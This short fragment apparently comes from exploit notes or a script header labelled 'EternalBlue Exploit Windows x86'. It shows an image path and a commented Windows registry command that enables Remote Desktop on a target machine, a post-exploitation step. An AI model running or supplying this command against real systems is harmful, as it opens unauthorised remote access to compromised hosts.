 # EternalBlue Exploit Windows x86
# REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 